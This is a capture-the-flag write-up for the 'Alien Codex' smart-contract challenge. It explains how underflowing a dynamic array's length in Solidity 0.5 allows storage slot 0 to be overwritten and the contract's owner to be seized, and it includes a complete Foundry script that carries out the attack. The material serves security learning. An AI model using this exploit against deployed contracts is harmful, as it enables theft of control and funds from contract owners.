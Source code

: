 # Alien Codex   
The objective of this challenge is to become the `owner` of the `AlienCodex` contract. Let’s break down the problem and the solution step by step.

#### Initial Observations

1. Solidity Version: The contract uses Solidity version `^0.5.0`, which has some quirks compared to newer versions.
2. Inheritance: The contract inherits from `Ownable`, which means it has an `_owner` variable, even though it’s not explicitly declared in `AlienCodex`.
3. Storage Layout: The contract has two state variables: 
```solidity
contract AlienCodex is Ownable {
    bool public contact; // Slot 0
    bytes32[] public codex; // Slot 1 (length), data starts at keccak256(abi.encodePacked(uint256(1)))
...
}
```
The key to solving this challenge lies in exploiting the dynamic array `codex`. Since Solidity stores dynamic arrays differently from fixed-size arrays, we can manipulate the array’s length and data to overwrite storage slots, including the `_owner` variable.
Steps to Exploit:
1. Enable Contact: Call `makeContact()` to set contact to `true`, allowing us to interact with other functions.
2. Underflow the Array Length: Call `retract()` to decrease the `codex.length` by 1. Since codex is initially empty, this causes an underflow, setting the length to 2^256 - 1. This effectively gives us access to the entire storage space of the contract.
3. Calculate the Target Index: The `_owner` variable is stored at Slot 0. To overwrite it, we need to calculate the index in the `codex` array that corresponds to Slot 0. The formula for the index is:
```solidity
index = 2^256 - uint256(keccak256(abi.encodePacked(uint256(1))))
```
This is because the array data starts at `keccak256(abi.encodePacked(uint256(1)))` (Slot 1’s hash).
4. Overwrite the Owner: Use the `revise()` function to write our address to the calculated index, effectively overwriting the `_owner` variable.

I wrote a script to automate the exploitation process:
```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";

contract SolvingScript is Script {
    address victim = ; // Your instance address

    function run() external {
        vm.startBroadcast();
        victim.call(abi.encodeWithSignature("makeContact()"));
        victim.call(abi.encodeWithSignature("retract()"));
        vm.stopBroadcast();

        uint256 index;
        unchecked {
            index -= uint256((keccak256(abi.encodePacked(uint256(1)))));
        }

        vm.startBroadcast();
        victim.call(abi.encodeWithSignature("revise(uint256,bytes32)", index, bytes32(uint256(uint160(msg.sender)))));
        vm.stopBroadcast();
    }
}
```